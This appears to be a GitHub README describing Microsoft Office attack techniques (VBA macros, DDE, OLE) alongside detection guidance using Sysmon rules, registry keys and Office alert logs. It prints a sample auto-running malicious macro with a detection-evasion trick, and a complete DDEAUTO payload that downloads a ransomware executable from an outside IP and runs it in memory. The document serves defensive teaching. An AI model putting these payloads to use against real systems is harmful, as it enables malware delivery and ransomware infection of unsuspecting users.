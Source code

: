 ## Microsoft office Attacks

Microsoft office is  a bundle of software that running under windows operating system (ex: Word, Excel,PowerPoint, etc.)

Microsoft integrate many techniques to facilities the job of the user, like VBA macros to automate tasks, Dynamic Data exchange "DDE" to exchange data between Microsoft process, and object linking & Embedding "OLE" which is successor for DDE, this technologies which were meant to be some thing to make the user tasks easier, were misused by hacker, just like any thing.



### VBA Macros

first I need to clarify a thing, there are 4 different languages that some kind related,

- VB6 "Visual Basic"
  - it's compiled language that produce executables 
- VBA "Visual Basic for Application"
  - it's like VB6 but runs under an application "Micorsoft Office, AutoCAD,SolidWorks"
  - it's not compiled
- VBS "Visual Basic Script"
  - used in Web to access do some manipulation on devices
  - need host to run under it which is WSH " windows script host"
  - Not compiled
- JScript
  - Like VBS but with different syntax
  - also run under  WSH

VBA,and VBS syntax are different but not huge difference
but Jscript has major difference in syntax compared to VBS/VBA



Now, lets go back to VBA macros which used in Microsoft office product

the following macro is a sample of malicious macro that used in word documents
it have a form called "skrfeev" that has 3 controls "lables" contains malicious code



**Label1** contains in the ControlTipText property "new:72c24dd5-d70a-438b-8a42-98424b88afb8"

72c24dd5-d70a-438b-8a42-98424b88afb8 is the CLSID for Wscript.shell, could be found in Registry under

Computer\HKEY_CLASSES_ROOT\Wscript.shell\CLSID in a value called "Default"

using CLSID with GetObject is better that ProgID with CreateObject to bypass some Detection techniques 

**Label2** contains in the ControlTipText property  "PoWeRSheLL -ENCOD"

**Label3** contains in the ControlTipText property  "Malicious Powershell code encoded in Base64"

```vb
Function Func1(Array, Array_index)
  Set Element = Array(Array_index)
  Func1 = (Element.ControlTipText) + ""
End Function

Function GetobJect_xx(ObjectID)
 Set GetobJect_xx = GetObject(ObjectID)
End Function

Sub AutoOpen()
Const_Int = Sqr(4) - 1
ObjectID = Func1(skrfeev.Controls, 1)
If Dummy_Var = 2 Then
  MsgBox ObjectID
End If
GetobJect_xx(ObjectID).Run% Func1(skrfeev.Controls, 2) + Func1(skrfeev.Controls, 0), 8552 - 4
End Sub


```



![Mermaid2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/Mermaid2.JPG)



## Detection

We can't detect the running of macros, but we can detect the events that happened when file contains macro or file is trusted by user to run its macro

when user trust document or enable editing for it , there is values added to registry to let windows remember user's choice

```powershell
Computer\HKEY_CURRENT_USER\Software\Microsoft\Office\15.0\Word\Security\Trusted Documents\TrustRecords
```

*15.0 will vary depending on your installed office version*

Data of this value may vary upon the permission

- suffix FF FF FF 7F means enable macro
- suffix 01 00 00 00 means enable for writing

Macros enabling generate not event in office Alerts [Windows Events] "OAlertx.evtx"

**Detection** 

- sysmon

  - Registry edit for \Security\Trusted

  ```xml
  <Sysmon schemaversion="4.00">
  <HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
    <EventFiltering>
  		
  		<RegistryEvent default="include"> 
  			<TargetObject condition="contains">\Security\Trusted</TargetObject>
  		</RegistryEvent>
  		
  	
  	</EventFiltering>
  </Sysmon>
  ```
  
  

RegRipper which is very good tool for registry analysis has a plugin called trusterecords which display files trusted in Microsoft office

------

### Dynamic Data Exchange "DDE"

Dynamic Data exchange is a method that enable office application from getting data from another office application, it can run at startup which means that when word office opens it will run, it help users import data from file to file and do their tasks easily

#### Attack 

*it's not working on Win 10 1809 and above*

Open Word file and create formula



![DDE1](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDE1.png)



![DDE2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDE2.png)



![DDE3](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDE3.png)

when you Toggle Field Codes remove = \\* MERGEFORMAT and place the following

```powershell
{DDEAUTO c:\\windows\\system32\\cmd.exe "/c powershell.exe -nop -ep bypass-C ( [System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://[IP]/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))"}
```

this will download ransomware from external IP and load it directly in the memory *"the executable must be .net to be able to use this command line and must have no argument in the main function, if it has you have to edit the code in the command line with types of arguments"* 



### Detection

- Windows events
  - Micorsoft Office Alerts [OAlerts] "C:\Windows\System32\winevt\Logs\OAlerts.evtx"
    
    - EventID 300: it will show (c PowerShell) which is /c powershell.exe but it will not show any other details like command line of the PowerShell "we can get PowerShell command from PowerShell logging" but if cmd will run regsrv32 as example, we have no log
      also we don't have the name of the office file to examine it, but we can  look at recent folder for windows or recent folder for Microsoft word to obtain recently opened files
    
    

![DDEOAlert](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDEOAlert.jpg)

---



### Object linking & embedding "OLE"

Object linking and embedding is very awesome feature in office that makes you create objects in an application and copy it to another application(ex: objects like graphs, tables), it is the successor of DDE

to Create it 
Insert --> Object --> Package , Display ICON "choose ICON from WINWORD.exe" --> name the lable --> choose the file 



![OLE](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/OLE.JPG)



![OLE2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/OLE2.JPG)

OLE suffered from buffer overflow vulnerabilities that let attacker use it to deliver malwares, the good thing for attackers in this case that when OLE runs their malicious command buried inside the document, there is no "Enable content" button that use have to click on neither popup like in DDE "**CVE-2017-11882**" not working in Win 10 1809 and above





### Detection

for OLE there is no Events and there is no registry key to search so I will talk about general detection



![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/Mermaid.JPG)



- **sysmon**
  - Process Create
    - Parent process in the office path "Microsoft Office\Office", it contains WINWORD.exe,EXCEL.exe .etc
      - this detection could be bypassed using Parent PID spoof
```xml
<Sysmon schemaversion="4.00">
<HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
  <EventFiltering>
		
		<ProcessCreate default="include"> 
			<ParentImage condition="contains">Microsoft Office\Office</ParentImage>
		</ProcessCreate>
      
	</EventFiltering>
</Sysmon>
```



### Some Digital Forensics

Many Incident Attack vector is Microsoft office, so we have to focus on finding office file that the user run

in registry in this path

`HKEY_CURRENT_USER\Software\Microsoft\Office\<Version>\Word\File MRU`MRU->"Most recent used"

Place MRU  -> location of file 

Security\Trusted





### Reference

- 1- [VBS tutorial](https://ss64.com/vb/)
- 2- [DDE Security from Micrsoft](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
- 3- [office exploits](https://github.com/SecWiki/office-exploits)

  